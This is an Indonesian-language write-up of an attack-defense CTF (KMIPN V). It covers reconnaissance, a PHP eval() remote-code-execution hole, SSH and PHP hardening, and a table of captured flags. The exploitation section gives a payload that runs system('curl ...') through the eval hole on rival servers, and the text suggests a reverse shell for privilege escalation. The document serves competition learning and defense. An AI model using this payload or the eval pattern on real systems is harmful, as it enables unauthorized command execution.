

# Attack Defense Write Up

## Deskripsi
Pada CTF attack defense di KMIPN V setiap tim diberikan server masing-masing yang harus diamankan karena terdapat beberapa vulnerability yang dapat menyebabkan tim lain mampu mendapatkan flag pada server tersebut.

## Technical Overview
Setiap server memiliki dua buah flag, yaitu user flag dan root flag.
Untuk mendapatkan user flag, setiap tim hanya perlu menjalankan command atau login sebagai user tanpa privilege root. User flag didapatkan dengan menjalankan command berikut
```
curl http://143.198.214.35/flag.php
```

Kemudian untuk mendapatkan root flag harus login atau menjalankan command dengan user yang memiliki privilege root. Untuk mendapatkan root flag dengan menjalankan command berikut ini.
```
curl http://143.198.214.35/flag.php?kode=xxxxxxxxxx
```
Untuk mendapatkan kode dengan cara membaca file `/root/kode.txt` yang ada pada setiap server.

**NOTE:**
IP address `143.198.214.35` bukan IP address dari server setiap tim, tetapi server flag.

IP address untuk tiap tim ditunjukkan oleh tabel berikut.

|Nama Tim |IP Address|
|---------|----------|
|Pengen juara|159.223.79.132|
|N1MDA|139.59.103.159|
|aezakmi|68.183.190.122|
|Nandi-vsEverbody|68.183.185.62|
|Gtechtive|178.128.102.252|
|05-Council|68.183.181.87|
|Ramses|178.128.107.119|
|Kawah|68.183.179.125|
|CyberItech-R3|178.128.97.196|
|Kebelet-Jalan|178.128.105.76|
|kata-mama|167.172.80.139|
|UHUY_seCUR1ty|178.128.109.17|
|Raz-Cyberitech|206.189.86.108|
|Renaisans|206.189.91.221|
|ABOT|68.183.237.117|
|Siber-Awam|128.199.213.64|
|Wall-Breaker|174.138.21.181|
|FAQ-TEAM|174.138.29.120|

Pada CTF attack defense seluruh service harus tetap running (disable service tidak diperbolehkan) dan dapat digunakan sebagaimana mestinya. Kemudian tidak perbolehkan untuk menghapus file, namun memodifikasi diperbolehkan selama tidak mengganggu service.
Port yang harus tetap terbuka ke public adalah port 21, 22, 25, 80, 110, 143, dan port 8080. Port lain bisa disesuaikan

## Reconnaissance
Tahapan awal untuk mengetahui setiap service dan port yang digunakan serta kemungkinan celah keamanan yang ada digunakan `nmap` seperti berikut ini
```
sudo nmap -sC -sV -p- <ip_address>
```
Dimana `<ip_address>` merupakan IP address dari setiap server.

Dari hasil scanning menggunakan `nmap` dapat diambil resume mengenai setiap service dan portnya pada setiap server

```
PORT      STATE     SERVICE
22/tcp    open      ssh
25/tcp    filtered  smtp
80/tcp    open      http
81/tcp    open      http
445/tcp   filtered  microsoft-ds
465/tcp   filtered  smtps
500/tcp   open      http
587/tcp   filtered  submission
1337/tcp  open      unknown
2000/tcp  open      http
```

Berdasarkan hasil tersebut, kita bisa langsung mengecek setiap service yang terdeteksi dari hasil scanning nmap.
Pada port 22 atau SSH diketahui bahwa untuk login ke SSH masih menggunakan password. Kita bisa meningkatkan keamanan dari SSH tersebut dengan menggunakan key pair, yaitu public key dan private key untuk terhubung ke SSH.

Selanjutnya pada port 500 atau HTTP server ditemukan sebuah kerentanan berupa PHP Remote Code Execution (RCE) melalui fungsi `eval()`.
Kerentanan tersebut ditemukan pada file `/var/www/playground/index.php`. Potongan source code yang mengandung vulnerability ditunjukkan seperti berikut ini.

```php
<?php
 if(isset($_POST[‘exec’])){
   $code = $_POST[‘code’];
   eval($code);
 }
?>
```

Menurut link [berikut](https://www.php.net/manual/en/function.eval.php) fungsi `eval()` akan mengevaluasi inputan sebagai kode PHP. 
Itu artinya setiap kode PHP yang dimasukkan ke server akan dieksekusi tanpa adanya filter atau blocking. Perlu diketahui bahwa hal tersebut sangat berbahaya, karena pada PHP terdapat fungsi `system()`, `shell_exec()`, dan `exec()` yang mampu mengeksekusi command secara langsung pada sistem.
Dampaknya adalah attacker dapat menjalankan arbitrary remote code execution jika vulnerability tersebut tidak dimitigasi.
Kemungkinan kita bisa memanfaatkan vulnerability tersebut untuk mendapatkan user flag dan untuk mendapatkan root flag bisa dengan mengeksekusi payload untuk reverse shell yang bisa digunakan untuk privilege escalation ke root.

## Hardening
Berdasarkan beberapa temuan vulnerability yang ada pada service server, untuk itu perlu dilakukan hardening untuk memperkuat keamanan pada server tersebut. Hardening meliputi pada SSH dan HTTP server.

### Mengubah autentikasi SSH menjadi key based
Untuk mengamankan SSH digunakan langkah dari link [berikut](https://www.digitalocean.com/community/tutorials/how-to-configure-ssh-key-based-authentication-on-a-linux-server). Langkah-langkahnya seperti berikut ini:
1. Generate sepasang SSH key, yaitu public key dan private key dengan command di bawah ini. Masukkan passphrase untuk menambah keamanan dari private key.
```
ssh-keygen
```
2. Pair key akan digenerate pada `/home/<username>/.ssh`. Pada direktori `/home/<username>/.ssh` akan terdapat file `id_rsa` yang merupakan private key dan harus dijaga kerahasiaannya dan `id_rsa.pub` adalah public key.
3. Copy public key ke server dengan command berikut
```
ssh-copy-id <username>@<ip_address>
```
4. Coba untuk terhubung ke server dengan perintah di bawah.
```
ssh <username>@<ip_address>
```
5. Matikan password authentication pada SSH server. 
```
sudo nano /etc/ssh/sshd_config
```
> PasswordAuthentication no
6. Restart service SSH
```
sudo systemctl restart ssh
```

Setelah melakukan langkah tersebut tingkat keamanan SSH jadi meningkat, karena dengan menggunakan key-based authentication dan menonaktifkan password authentication dapat meminimalkan kemungkinan akses ilegal jika password yang digunakan untuk autentikasi lemah.
Namun hal yang perlu diperhatikan adalah untuk selalu menjaga kerahasiaan private key, jika private key sampai bocor maka akses ke SSH jadi terancam.

### Mitigasi RCE PHP melalui fungsi eval()
Seperti yang sudah dibahas pada tahap reconnaissance atau tahap mengumpulkan informasi, terdapat sebuah vulnerability pada HTTP server port 500 yang mampu untuk menjalankan remote code execution jika tidak ditangani.

Langkah yang dilakukan untuk memitigasi vulnerability tersebut adalah dengan menggunakan whitelist command apa saja yang boleh dimasukkan seperti berikut ini
```php
<?php
if (isset($_POST['exec'])) {
  $allowedCommands = [
    'command1' => 'echo ',
    'command2' => 'echo "Hello World!"'
  ];
  $code = $_POST['code'];
  if (array_key_exists($code, $allowedCommands)) {
    $output = print($allowedCommands[$code]);
    echo "Output: " . $output;
  } else {
    echo "Invalid command!";
  }
}
?>
```
Langkah lain yang bisa dilakukan adalah dengan menonaktifkan fungsi `eval()`, `system()`, `shell_exec()`, dan `exec()` dengan cara menambahkannya pada konfigurasi file `php.ini` seperti berikut ini
```
disable_functions = system,eval,exec,shell_exec
```

Agar konfigurasi `php.ini` dapat langsung diterapkan jalankan command berikut
```
sudo systemctl restart nginx
```

## Exploitation
Eksploitasi akan memanfaatkan kerentanan pada HTTP server port 500, yaitu fungsi `eval()` yang berujung pada RCE.
Berikut adalah payload yang digunakan untuk mendapatkan user flag pada server yang masih memiliki vulnerability.

```php
echo system('curl http://143.198.214.35/flag.php');
```
Hasilnya kurang lebih ditunjukkan seperti gambar berikut


## Flag

|Nama Tim |IP Address|User Flag|Root Flag|
|---------|----------|---------|---------|
|N1MDA|139.59.103.159|KMIPN{wkLYWHWhSUFBgghvhkgdWbidwdbAUHJR}| |
|05-Council|68.183.181.87|KMIPN{AVPdUxCUxSUqYYCikjKcjiZJEQwpFQEfopo}| |
|Kawah|68.183.179.125|KMIPN{tdikfdlbMQgghAyNKkjaaQrCepQfByukl}| |
|Kebelet-Jalan|178.128.105.76|KMIPN{polkEgzjCfXplaukfsxqwhswijJrjaitalie}| |
|UHUY_seCUR1ty|178.128.109.17|KMIPN{ByzfsgVmLGSPjajshXSzjxYXxqGGchCKsld}| |
|Raz-Cyberitech|206.189.86.108|KMIPN{PlfwJPqpslCzWjghPerQBYLAAQacLFhBjB}| |
|Renaisans|206.189.91.221|KMIPN{PyqwZdzfBgzLpojshLtYBSOpwNWBhSFOwp}| |
|Siber-Awam|128.199.213.64|KMIPN{PlefTFAZOpeHXPlejshmfyaPleyUkCWPlw}| |
|FAQ-TEAM|174.138.29.120|KMIPN{PlwtPnhdmEqPwyuvBXzQvGhikwZLXaPlwu}| |